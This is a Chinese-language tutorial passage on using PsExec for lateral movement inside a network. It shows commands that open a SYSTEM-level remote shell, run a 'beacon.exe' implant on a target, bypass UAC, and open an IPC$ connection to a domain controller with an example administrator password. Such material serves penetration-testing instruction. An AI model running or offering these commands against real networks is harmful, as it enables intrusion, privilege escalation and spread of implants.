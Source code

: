 

## 使用指南

### 常用参数

| 参数          | 描述                                                         |
| ------------- | ------------------------------------------------------------ |
| `\\computer`  | 指定目标计算机。使用`\\*`指定网络中的所有计算机。            |
| `-u`          | 指定用于登录的用户名。如：`-u domain\username`。             |
| `-p`          | 指定用户的密码。                                             |
| `-s`          | 在远程计算机上的System账户上下文中执行命令。                 |
| `-i`          | 在指定的会话中运行程序，与交互式应用程序互动。               |
| `-d`          | 不等待远程程序完成，后台执行命令。                           |
| `-accepteula` | 接受PsExec的许可协议。                                       |
| `-h`          | 如果目标系统启用了UAC，使远程进程在UAC上下文中“继承”父进程的令牌。 |



### 常用操作

**1.建立一个管理员权限的交互性的shell**

```
PsExec \\ip -u <管理员用户> -p <用户密码>  -accepteula -s cmd.exe
```



**2.远程执行程序**

```
PsExec \\ip -u <管理员用户> -p <用户密码> -accepteula -s C:\beacon.exe
```



**3.尝试以更高的权限执行程序**

```
PsExec \\ip -u <管理员用户> -p <用户密码> -accepteula -h C:\beacon.exe
```



## IPC$下使用psexec

首先需建立IPC$链接

```
net use \\dc.henry.com\ipc$ /user:administrator qQ123456
```

![image-20230902113049749](内网横向移动/image-20230902113049749.png)	
